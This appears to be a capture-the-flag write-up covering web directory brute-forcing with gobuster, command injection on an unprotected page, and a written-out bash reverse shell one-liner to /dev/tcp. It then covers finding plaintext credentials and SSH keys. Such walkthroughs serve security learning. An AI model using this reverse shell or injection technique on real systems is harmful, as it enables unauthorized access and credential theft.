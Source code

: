 ## Description

![image](https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png)

## Hands on

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !

![image](https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png)

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files
![image](https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png)
Note : <br/>
<ul>
<li>dir specify brute force the directory <li/>
<li>-u specify the web browser url<li/>
<li>-w specify the dictionary path for the attack<li/>
<li>-t specify how many thread to be used for the attack<li/> 
<li>-o specify output file name<li/>
<ul>
and we found the hidden directory named :

"home.php" 

![image](https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png)

guess what ? who need credentials when you can access the page without one ?

"validate.php" , Look like incorrect credentials goes here

![image](https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png)

Moving on , we can check if the machine is linux by using  "uname -a" command

![image](https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png)

and yess , now slap reverse shell command into the input <br/>
![image](https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png)

```
 bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
 
```
<br/>
remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as "www-data" !
<br/>

![image](https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png)

<br/>
now we search for the key , key_rey_key seems sus and by trying strings command we found the key
<br/>

![image](https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png)

<br/>
and we are lucky to found the user credentials in plain text inside the "validate.php" code
<br/>

![image](https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png)

switch user to charlie and we got the flag , oh yeah.. you cant switch user here..
<br/>

![image](https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png)

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

![image](https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png)






